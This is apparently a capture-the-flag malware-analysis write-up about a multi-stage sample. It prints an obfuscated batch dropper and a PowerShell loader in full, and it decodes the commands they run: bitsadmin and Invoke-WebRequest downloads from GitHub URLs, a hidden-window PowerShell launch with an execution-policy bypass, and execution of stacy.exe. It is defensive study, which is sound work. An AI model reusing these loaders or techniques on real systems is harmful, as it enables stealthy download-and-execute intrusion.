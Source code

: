 ```yaml
---
layout: post
title: "Multi Stage"
date: 2025-04-21 
categories: [writeup ,malware analysis]
tags: [writeup, malware analysis]
image: https://miro.medium.com/v2/resize:fit:272/format:webp/1*8jRzQ9YRzqdEy3xYTu3kKQ.png
---
```


# 🐞 Malware analysis

Analysis on malware that operates through multiple phases.

Multi-stage malware is a sophisticated type of malicious software designed to execute in multiple phases, often evading detection by traditional security measures. Unlike single-stage malware, which executes its payload immediately, multi-stage malware follows a structured execution path, usually involving an initial dropper, loaders, and a final payload.

In the challenge I was given the malicious program zip file named multistage.zip. I extracted it in a controlled environment in my kali linux vmware sandbox. After extracting it there is a multistage file. Going through the file i have located the possible malicious program file which is called stacysmom.bat which is a windows batch file.


<figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:272/format:webp/1*8jRzQ9YRzqdEy3xYTu3kKQ.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption><em>the multi stage folder after extraction</em></figcaption>
</figure>


<figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:272/format:webp/1*hWaufeSZDLSlPpFTQrUMAQ.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>the malware file in .bat extension</em></figcaption>
</figure>

A `.bat` file is a simple script file used in the Microsoft Windows operating system to automate tasks or run commands. When you double-click a `.bat` file or execute it , the `cmd.exe` reads the commands within the file and executes them sequentially.

``` bat
@echo off &setlocal
set eitg=set
set gopy=for
REM ZGlzdHJhY3QK
set hetY="tokens=* delims=" && set GhEt=in && set SADFCweFDCWQE=/f
REM VGhlc2UK
set VCWErqw=" " && set FWEfvrewFWRVEwer=dG#######hpc##########yB#####pc##########yBraW5k#####Y#######SBv######Zi######Bwb2l##########ud#######Gx#####lc#########3M######K###### && set POUINTYEBRTwertf=R!!!!!!m!!!!!!!!!x5aW5n!!!!!!!IHNh!!!!!!!!!dWNl!!!!!!!!!c!!!!!!!!n!!!!!!!!!Mg!!!!!!!!!!b2Z!!!!!!!!!0ZW4gY3!!!!!!!!!J!!!!!!!vc3Mg!!!!!!!bXkgbWlu!!!!!!Z!!!!!!!!!C!!!!!!B!!!!!!3!!!!!!!!aGV!!!!!!uI!!!!!!!EknbSBoa!!!!!!!Wdo!!!!!!!!!IEk!!!!!!!!n!!!!!!!!bSB0!!!!!!cmlwcGl!!!!!!!uJ!!!!!!w!!!!!o=!!!!! && set WeTTyhRRvfer=c@@@@@@3R@@@@h@@@@@@@@@Y3k@@@ucH@@@@@@@M@@@xCg@@@==@@@@@@@ && set VerBrtEwFCWe=a!!!!!!H!!!!!R0c!!!!!HM!!!!!!!!!6!!!!!!!!!L!!!!!y!!!!!9!!!!!y!!!!!!!!!!YXc!!!!!!!uZ2!!!!!l0aHVi!!!!!!!!!d!!!!!!!!!!X!!!!!!!!NlcmNvb!!!!!!!!!n!!!!!!!!RlbnQu!!!!!!!!!!Y29tL!!!!!!!0ludG!!!!!!!!!!Vyb!!!!!!m!!!!!!V!!!!!!0LTItM!!!!!!!C!!!!!!!9m!!!!!!a!!!!!!!W!!!!!!!!!!xl!!!!!!!!!!L!!!!!!!X!!!!!N!!!!!h!!!!!!!!bX!!!!!!!!!!B!!!!!!!s!!!!!!!!!!Z!!!!!XMvbWF!!!!!!z!!!!!!!!!!d!!!!!!!!GV!!!!!!!!!!y!!!!!!!!!!L3N!!!!!!jcm!!!!!!!!!!lwdHMvc!!!!!G!!!!!!!!!!9!!!!!!!!3ZXJzaG!!!!!!!!V!!!!!!!!!sbC9z!!!!!!!!!!d!!!!!!!GFjeS5wc!!!!!!zE!!!!!!K!!!!!!! && set WERtggbvtrWERV=W1N5c!!!!!!!!!!3!!!!!!!!!Rlb!!!!!S5UZXh0LkVuY29ka!!!!!W5!!!!!!nX!!!!!!!!!!To6!!!!!V!!!!!V!!!!!!!!RG!!!!!!!!!!O!!!!!!!!!C5HZXR!!!!!!T!!!!!!!!!!d!!!!!H!!!!!!!Jp!!!!!!!!!!b!!!!!!!!mcoW1N!!!!!!!!5!!!!!c3RlbS5D!!!!!!!!b!!!!!!!25!!!!!!!2!!!!!!ZXJ!!!!!!!0XTo6Rn!!!!!!!!!J!!!!!!!!!!v!!!!!!!!!!bUJh!!!!!!c!!!!!2!!!!!!U2!!!!!!!!!NFN!!!!!!!!!!0!!!!!!!!!cmluZw!!!!!!!!!!o= && set NTYerFVERHetERfewef=Y@@@@@@ml0c2Fk@@@@@@@b@@@@@@@@@WluLmV4@@@@@@@@@ZS@@@@@@A@@@@@@v@@@@@@@@@d@@@@@@@HJh@@@@@@bnNmZXI@@@@@@@@K@@@@@@@@@@ && set BRTwercvWQEFRWE=Mjc!!!!!!!!5!!!!!!!NWUx!!!!!!Nm!!!!!!!!!!Q!!!!!wM!!!!!!!DYx!!!!!!!ZjI0!!!!!!!!Yzkx!!!!!!M2My!!!!!NjAyY!!!!!!!!zI0NTM1Y!!!!!!!!!2F!!!!!!j!!!!!!!Mj!!!!!!!!!A!!!!!!!!!!yND!!!!!!!d!!!!!!!!!j!!!!!!!Mj!!!!!!!!Vj!!!!!!!OWM!!!!!!zNmE4!!!!!!!!!!O!!!!!WQyM!!!!!!!!!!GFk!!!!!!!!!NDgy!!!!!!!!!MGJj!!!!!!!!!NGI3M!!!!!i!!!!!!A!!!!!!!!!!gZ3Jv!!!!!!dX!!!!!!!BzLmpzb2!!!!!!!!4KOG!!!!!!!!!!NiMW!!!!!Zl!!!!!!!!M!!!!!!!!!GU!!!!!!!!!5YTQ!!!!!!yOGYxY!!!!!!!!!!TN!!!!!!!!!m!!!!!!!!!!ZmE!!!!!!3O!!!!!!T!!!!!!!!!c2!!!!!!!!!M2!!!!!!U5Y!!!!!!!TBi!!!!!!!!!!NTg!!!!!!!x!!!!!N!!!!!!!!!zV!!!!!!!!!h!!!!!!Z!!!!!j!!!!!!g!!!!!!!!!4NmZmM!!!!!!!!!!2!!!!!!!!!!J!!!!!mO!!!!!TFm!!!!!!!!!!Mz!!!!!!!Ew!!!!!!Z!!!!!jQ4ZGQ!!!!!!!!!4Y!!!!!TJ!!!!!hNj!!!!!!!!!M4ZC!!!!!AgcH!!!!!!!!J!!!!!!!l!!!!!dHR5X2!!!!!!!!!dyb3Vwcy!!!!!!!!!5qc29u!!!!!!!Cg!!!!!!!!!=!!!!!!!!!=!!!!!!! && set RTYbrtgVEWRqqwer=LU5vUC@@@@@@At@@@@@@@@@d@@@@@2l@@@@@@@@@@O@@@@@@@ZG93@@@@@@U@@@@@@@@1@@@@@RZTEU@@@@@@@gaGl@@@@@kZ@@@@@@GVOI@@@@@@@@C1@@@@@@@@F@@@@@@@@e@@@@@@@@@E@@@@@@@@@V@@@@@@j@@@@@@@@@d@@@@@@@V@@@@@@@@R@@@@@@p@@@@@@@@@@b05Q@@@@@@@@@@b2@@@@@@xpY3@@@@@kgQn@@@@@lw@@@@@@@@@QX@@@@@NzI@@@@@@@@C@@@@@@1Db01@@@@@@@@@@tQU@@@@@5EC@@@@@g==
REM Y29tbWVudHMK
set WERvtreVRETqwefewr=Zj########Q4OTI#w######ZTU######zN2#####Q#####5#####Y#########zRl####MG##U######3#########OTU#########5####Nz##FkYTM2##########NDY0ND##########Q######xOT######B#lZWNk###Mj######R#######k########N####z###E#####5MzAzYmV##j######ZG##Q########5Y##T####E#####zY########mZh######NTg#####xMAo#########= && set ERTHbrteQE=VGh@@@@@@@@@@pcyB@@@@@@@k@@@@@@@@b2Vzbn@@@@@@QgZG@@@@@@@@8@@@@@@gYW5@@@@@@@@5dG@@@@@@@@h@@@@@@@@@p@@@@@@bmcg@@@@@@YW5@@@@@@@@@@k@@@@@IH@@@@@@@@@l@@@@@@@@vdSd@@@@@yZ@@@@@SB@@@@@@@@@3Y@@@@@@@@@@XN0aW@@@@@@5nI@@@@@@@@Hl@@@@@@@@@vdX@@@@@@@Igd@@@@@@@@Gl@@@@@tZ@@@@@@Qo=@@@@@=@@@@@@@@@@ && set OIYuhrTRE=cG!!!!!!!!9!!!!!!!!!3!!!!!!!!ZX!!!!!!!!!Jz!!!!!!!a!!!!!!!!GVsb!!!!!!!!!!C!!!!!!!5le!!!!!!G!!!!!UK && set QWERVTrgbyRTGTREW=QnV#########5I#########G1lI##########G######Eg#####bW9######0aG########Vy#########I#########G########Z#####1Y2#########t#########p########bmcgZ##########2lyYW######ZmZQ##########o=######### && set QWErfqwfecQWEDWEX=%VerBrtEwFCWe:!=%
REM REM eW91Cg==
set QWEcwgrtHWTFWEQaxwe=%WeTTyhRRvfer:@=% && set RTYUvERQCXergtewsr=%WERvtreVRETqwefewr:#=% && set OYUIThbgrwtWCVRE=%OIYuhrTRE:!=%
REM YXJlCg==
set NETRYverEWERCREWweq=%RTYbrtgVEWRqqwer:@=%
set DwqeqwefWEFqwer=%WERtggbvtrWERV:!=%
REM ZGVzaWduZWQK
set ERTYbrtWCRWEfverwfcwer=%NTYerFVERHetERfewef:@=%
set SDFweFCWEwCWERwFWE=%ERTYbrtWCRWEfverwfcwer%%DwqeqwefWEFqwer%%NETRYverEWERCREWweq%%QWEcwgrtHWTFWEQaxwe%
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%OYUIThbgrwtWCVRE%"""^)^)') do set "CVWQeFEWRFQWEd=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%DwqeqwefWEFqwer%"""^)^)') do set "WreqwecQWEFRWE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWErfqwfecQWEDWEX%"""^)^)') do set "KIUYntyERverERF=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWEcwgrtHWTFWEQaxwe%"""^)^)') do set "NbfdsvREVntySRE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%RTYUvERQCXergtewsr%"""^)^)') do set "iUYTbyteVERTfer=%%#"
REM dG8K
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%NETRYverEWERCREWweq%"""^)^)') do set "QWWEcdweWERee=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%ERTYbrtWCRWEfverwfcwer%"""^)^)') do set "QWERfcerWEDfcvtbytTYR=%%#"
%QWERfcerWEDfcvtbytTYR% "%iUYTbyteVERTfer%" %KIUYntyERverERF% %cd%\%NbfdsvREVntySRE% && %CVWQeFEWRFQWEd% %QWWEcdweWERee% "%cd%\%NbfdsvREVntySRE%"


```
 

## **What windows tool used by to download the second stage payload?**

 I opened the `.bat` file using a text editor called Mousepad and observed that the code was heavily obfuscated, containing a mixture of random-looking symbols and meaningless strings, making it difficult to interpret at first glance. 
 
 Additionally, parts of the code were encoded in Base64, as indicated by the format and structure of the encoded strings. I noticed the use of the `&&` symbol, which in batch files is used to chain commands.
 
 So, I separated the commands accordingly to better analyze them. To confirm that the code was Base64-encoded, I extracted a portion of it and decoded it.

<figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*C24azyzRynbYQmpYMDrdoA.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>portion of the code decoded</em></figcaption>
</figure>

Using the cyberchef website i decoded a part from the text using the from base 64 option and remove non alphabet characters and got the decode text as shown on the picture. As it is confirmed the text is encoded as base64 i decoded it and got the decoded text.

``` bat
set VCWErqw=" " && 
set FWEfvrewFWRVEwer=this is kinda of pointless&& 
set POUINTYEBRTwertf= Flying saucers often cross my mind when I'm high I'm trippin' &&
set WeTTyhRRvfer=stacy.ps1&& 
set VerBrtEwFCWe=https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1 &&
set WERtggbvtrWERV=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String && 
set NTYerFVERHetERfewef= bitsadmin.exe /transfer &&
set BRTwercvWQEFRWE=2795e16d0061f24c913c2602c24535cac20247c25c9c36a89d20ad4820bc4b72  groups.json
8cb1fe0e9a428f1a3ffa79763e9a0b58175af886ff3bf91f310f48dd8a2a638d  pretty_groups.json &&
set RTYbrtgVEWRqqwer= -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND

```

From the decoded text we now have a link to the second stage of the malware.A suspicious PowerShell script was identified leveraging obfuscated variables, Base64 decoding, and the bitsadmin utility to stealthily download and execute a remote payload (`stacy.ps1`) from GitHub, while employing execution policy bypasses and hidden window execution—indicative of potential malware loader behavior.

**Answer: bitsadmin**

## **Find the link to the third stage of the malware ?**

Upon reviewing the linked PowerShell script `stacy.ps1`, it was found to be heavily obfuscated, using randomized variables, Base64 decoding, and encoded shellcode to reconstruct and execute a malicious binary `stacy.exe`. The script downloads the payload via Invoke-WebRequest, extracts it, and launches it using execution policy bypass techniques—indicative of malware dropper behavior.

``` powershell
function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";
```

The PowerShell script was hidden and difficult to understand. To uncover its purpose, I used CyberChef, a tool that helps decode obfuscated data.

First, I removed unnecessary `\x90` characters from the script. These characters didn’t serve any purpose and were only there to confuse the analysis. I also removed the extra equal signs `=` that were part of the Base64 encoding, as they weren’t needed.

Next, I reversed the string because the code was written backward to make it harder to read. After that, I decoded the string from Base64, which revealed the original URL and other information.

 <figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:786/format:webp/1*Go0EzfT11WEuPoQHDFzmaQ.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>using cyberchef</em></figcaption>
</figure>

 <figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:786/format:webp/1*9bjway9wj3AvoPUCh3WWcg.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>code decoded</em></figcaption>
</figure>

It then extracted the contents and ran an executable file called stacy.exe. The script used PowerShell to run stacy.exe while bypassing security settings to ensure it could execute without restrictions.

In the end, the script was designed to download and run a potentially harmful file.

**Answer: https://github.com/Internet20/filesamples/raw/master/misc/stacysmom.zip**

## **What is the URL the final stage malware trying to access?**

unzip the zip file and open the read me .txt

``` 
This is a publicity stunt done by the Malcore team. 

None of the files in this folder are malicious (if they are it wasn't me), they are just intended to look that way.

Hashes of files in this folder:
- a33a361b45aa3a7b6515ff7771af52632697e30ce7e63aa3a271f4f05a5ea28d  ./.fi/ch_1.lnk
- 6f567d8eea0e83dadea8d14068d40d9445151e24358d20b977e9b7c64d03927e  ./.fi/ed_9.lnk
- 05b3222358004e9704320764f7515283b8d2b09f0248f931c057d23a255a566c  ./.fi/ff_3.lnk
- 041afe89d68bb845ffde722354c13261ddb1bb46776fec0efa180a95fbc994b8  ./autorun.ini
- a3f4edfb57534da9eca838ad64cc73b1a661b3349368bcc6d5097edfd9a602a3  ./cliCk ME fOR inSTrucTioNs.pdf.lnk
- 7ff8e302fec63de5a35b03ef09aff6f5b722de23131b0f82da8f4203efac9d20  ./just_m_logo.ico
- 3aebd76e2877d35949eb21f27eeaad514b21810291628454a92f86de7264b225  ./stacy.exe

Of course always remain cautions when executing unknown files out of a USB you found on the ground at a hacking conference.
```

From this message there was suppose to an .fi directory but i the folder show none. So run this `ls -la ` to show an hidden dirctory and file

``` 
─$ ls -la
total 12772
drwxrwxr-x 4 kali kali    4096 May 16 22:17  .
drwxrwxr-x 3 kali kali    4096 Mar 21 00:32  ..
-rw-rw-r-- 1 kali kali      68 Jul 17  2024  autorun.ini
-rw-rw-r-- 1 kali kali    2673 Jul 17  2024 'cliCk ME fOR inSTrucTioNs.pdf.lnk'
-rw-rw-r-- 1 kali kali    1988 Mar 23 23:18  complet.bat
-rw-r--r-- 1 kali kali    2811 Mar 31 21:17  deobfuscated.bat
-rwxrwxr-x 1 kali kali     570 Mar 23 21:58  deobfuscate.sh
drwxrwxr-x 2 kali kali    4096 Mar 24 00:04  .fi
-rw-rw-r-- 1 kali kali    4286 Jul 16  2024  just_m_logo.ico
-rw-rw-r-- 1 kali kali  421931 Apr  3 22:05  output_stacy.txt
-rw-rw-r-- 1 kali kali  421931 Mar 24 01:34  output.txt
-rw-rw-r-- 1 kali kali   17542 Apr 27 23:43  pyinstxtractor.py
-rw-rw-r-- 1 kali kali     941 Jul 17  2024  README.txt
-rw-rw-r-- 1 kali kali       0 Mar 23 23:33  stacydecompile.bat
-rw-rw-r-- 1 kali kali 6147624 Jul 17  2024  stacy.exe
drwxrwxr-x 4 kali kali    4096 Apr 28 03:57  stacy.exe_extracted
-rw-rw-r-- 1 kali kali    1870 Mar 21 23:07  stacy.ps1
-rw-rw-r-- 1 kali kali    1129 Apr 19 05:52  stacyps1decode.ps1
-rw-r--r-- 1 kali kali    2647 Mar 21 22:54  stacysmom1.bat
-rw-r--r-- 1 kali kali    5646 Mar 23 21:59  stacysmom.bat
-rw-rw-r-- 1 kali kali 5988242 Mar 24 00:03  stacysmom.zip
-rw-rw-r-- 1 kali kali       0 Mar 23 23:58  stacy.zip

```
here i found the .fi directory and change the directory into it

``` 
.
├── ch_1.lnk
├── ed_9.lnk
└── ff_3.lnk

```

i cat the `ch_1.lnk` to view what is in it and found this

```
C:\Program Files\Google\Chrome\
Application"https://link.malcore.io"
(C:\Users\saman\Downloads\just_m_logo.ico
```

**Answer: https://link.malcore.io**
